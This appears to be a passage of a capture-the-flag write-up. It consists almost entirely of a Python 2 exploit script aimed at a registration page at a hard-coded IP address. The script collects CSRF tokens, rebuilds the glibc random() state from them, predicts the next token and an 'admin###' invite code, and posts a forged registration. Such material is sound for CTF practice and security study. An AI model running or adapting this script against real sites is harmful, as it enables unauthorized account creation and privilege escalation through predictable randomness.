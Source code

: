 ```python

```

### 整合注册

```python
import requests,re
# state[i] = state[i-3] + state[i-31]
codelist=[0]

url="http://116.85.39.110:5032/a8e794800ac5c088a73b6b9b38b38c8d/register.php"
partter='<input type="hidden" name="csrf" id="csrf" value="(.*?)" required>'
text="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

def RAND_RANGE(__n, __min, __max,__tmax):
    return __min+(__max-__min+1.0)*(__n/(__tmax+1.0))

def shuffle(text,length):
    n_elems = length
    if n_elems <= 1:
        return
    n_left = n_elems
    num=0
    while n_left:
        n_left=n_left-1
        rnd_idx = codelist[33+num];
        num=num+1
        rnd_idx=int(RAND_RANGE(rnd_idx, 0, n_left, 2147483647));
        if (rnd_idx != n_left) :
            temp = text[n_left]
            text = text[:n_left]+text[rnd_idx]+text[n_left+1:]
            text = text[:rnd_idx]+temp+text[rnd_idx+1:]
    return text

s= requests.Session()

for i in range(1,33):
    r= s.get(url=url)
    code = re.search(partter,r.content).group(1)
    print code
    codelist.append(int(code))
    if i==31:
        print (codelist[1]+codelist[29])%2147483647

for i in range(33,120):
    realcode=(codelist[i-31]+codelist[i-3])%2147483647
    codelist.append(realcode)

code="admin###"+shuffle(text,len(text))[0:32]
csrftoken=codelist[32]

data={
    "username":"gogodena",
    "password":"gogodena",
    "csrf":csrftoken,
    "code":code
}

b = s.post(url=url,data=data)

print b.content

```
